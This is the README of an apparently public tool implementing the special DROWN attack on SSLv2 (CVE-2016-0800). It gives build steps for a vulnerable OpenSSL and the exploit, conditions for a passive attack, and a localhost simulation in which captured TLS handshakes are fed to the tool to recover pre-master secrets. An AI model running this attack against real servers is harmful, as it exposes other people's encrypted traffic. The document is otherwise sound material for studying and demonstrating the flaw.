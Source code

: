 # drown
Implementation of the special DROWN attack on SSL2

Note : this does not cover the general DROWN attack.


## Installation

First, we need a version of OpenSSL with SSLv2 enabled. Also, if we want to make some simulations, we need a vulnerable OpenSSL (<= 1.0.1l).
We will compile and install it on the folder /path/to/prefix :

    wget https://www.openssl.org/source/openssl-1.0.1l.tar.gz
    tar xzf openssl-1.0.1l.tar.gz
    cd openssl-1.0.1l
    ./config enable-ssl2 enable-weak-ciphers --openssldir=/path/to/prefix
    make && make install

Now let's compile the exploit :

    git clone https://github.com/Tim---/drown
    SSL_PREFIX=/path/to/prefix make

To decrypt an encrypted pre-master secret c, using the public key of the server at the address host:port, we will use the following command :

    ./drown host:port certfile c

## Passive attack

In this type of attack, we can see the traffic between a server and a client using TLS.
In this case, we can decrypt some TLS sessions if :
* the same server, or another server, allows SSLv2 connections with the same public key ;
* the TLS sessions uses RSA as a key exchange algorithm (no Diffie-Hellman) ;
* the server is vulnerable to CVE-2016-0800 ;
* there is a sufficient number of session.

## Simulation

To simulate this scenario, want to record some TLS handshakes between a client and a server.
We will use the old version of OpenSSL we have installed to create a server, and initiate a lot of sessions.
We will capture the handshakes with tshark.

    cd /path/to/prefix
    ./bin/openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 123
    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4433 -www
    tshark -i lo -w handshakes.cap
    for i in $(seq 1000) ; do (echo 'GET / HTTP/1.1\r\n'; sleep 0.1) | ./bin/openssl s_client -connect 127.0.0.1:4433 -cipher kRSA; done

We can now get the encrypted pre-master secrets for each session with :

    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d :

To decrypt these handshakes, we need an OpenSSL server accepting SSLv2 connections :

    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4434 -www -ssl2

We can now decrypt the encrypted pre-master secret : 

    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d : | ./drown localhost:4434 cert.pem > pms.txt

After some time and if we're lucky, we will have some results in pms.txt. You can use this file in Wireshark to decrypt the content of the TLS session (Protocol Preferences > SSL > (Pre)-Master-Secret log filename).

